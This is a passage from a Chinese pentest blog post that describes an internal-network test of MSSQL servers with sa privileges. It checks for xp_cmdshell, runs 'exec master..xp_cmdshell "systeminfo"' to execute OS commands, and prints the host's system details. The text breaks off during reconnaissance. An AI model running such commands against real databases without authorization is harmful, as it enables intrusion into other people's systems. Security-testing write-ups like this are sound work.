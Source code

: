 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=Mzg2NDU3Mzc5OA==&mid=2247485859&idx=1&sn=e860bd3e277e858a616d67e5d2e9b8e0&source=41#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/0O7ep2c6dwMYyE3oKx2ZyabfeHZpzbUEOBBtUNa6mqsFzZiaj5PxQibTNk1U9PwnHBD3JPF81cXtnTM03hLibjY8A/640?wx_fmt=gif)

听说转发文章

会给你带来好运

在内网中扫描到了几台 sa 权限的 mssql，报备后做了次简单的检测

前期侦察

`Navicat`连上后查看`xp_cmdshell是否存在`

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mLpRFvjiciasABdibcfcib43jG1cAgKmiaGaicXK8B2ACVo9Uf3BYibfD67KJA/640?wx_fmt=png)

发现存在的

执行`exec master..xp_cmdshell "systeminfo"`发现网卡连接了一个`192.168/16`的内网`IP`

```
主机名:      WIN-XXXXX
OS 名称:     Microsoft Windows Server 2008 R2 Enterprise
OS 版本:     6.1.7601 Service Pack 1 Build 7601
OS 制造商:   Microsoft Corporation
OS 配置:     独立服务器
OS 构件类型:  Multiprocessor Free
注册的所有人:  Windows 用户
注册的组织:      
产品 ID:      00486-001-0001076-84214
初始安装日期:  2016/7/29, 17:27:35
系统启动时间:  2019/8/30, 8:37:41
系统制造商:    Inspur
系统型号:     NF5270M4
系统类型:     x64-based PC
处理器:       安装了 2 个处理器。
             [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~1197 Mhz
             [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~1197 Mhz
BIOS 版本:   American Megatrends Inc. 4.1.10, 2016/6/1
Windows 目录:   C:\Windows
系统目录:       C:\Windows\system32
启动设备:      \Device\HarddiskVolume1
系统区域设置:     zh-cn;中文(中国)
输入法区域设置:   zh-cn;中文(中国)
时区:          (UTC+08:00)北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量:     32,648 MB
可用的物理内存:   28,163 MB
虚拟内存: 最大值: 65,294 MB
虚拟内存: 可用:   60,327 MB
虚拟内存: 使用中:  4,967 MB
页面文件位置:   C:\pagefile.sys
域:            WORKGROUP
登录服务器:   暂缺
修补程序:     安装了 2 个修补程序。
             [01]: KB4012212
             [02]: KB976902
网卡:        安装了 2 个 NIC。
             [01]: Intel(R) I350 Gigabit Network Connection
                 连接名:      本地连接
                 启用 DHCP:   否
                 IP 地址
                   [01]: 192.168.122.16
                   [02]: fe80::e436:8d88:315b:25aa
             [02]: Intel(R) I350 Gigabit Network Connection
                 连接名:      本地连接 2
```